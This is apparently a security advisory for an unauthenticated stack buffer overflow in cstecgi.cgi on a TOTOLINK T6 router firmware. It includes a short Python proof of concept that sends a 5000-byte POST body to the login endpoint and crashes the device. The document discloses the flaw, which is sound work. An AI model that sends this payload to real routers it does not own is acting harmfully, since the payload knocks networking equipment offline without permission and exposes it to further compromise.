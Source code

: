 # TOTOlink T6(V4.1.9cu.5241_B20210923) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html

## Affected Version
V4.1.9cu.5241_B20210923
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `main` function of `cstecgi.cgi`. When an attacker accesses `http://ip/cgi-bin/cstecgi.cgi?action=login&flag=ie8` using the POST method, all data in the `HTTP BODY` will be read into `v10` through `fread` and concatenated to the local variable `v41` using the sprintf function. Due to the lack of length validation by the developer on `v10`, sending an overly long message by the attacker will eventually cause a stack overflow in the program. As this code segment resides at the beginning of the main function, the attacker does not need to undergo any form of authentication.
![Vulnerability](./ida.png)
## POC
```python
import requests
def poc():
    payload = "A"*5000
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi?action=login&flag=ie8', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.

![gdb](gdb.png)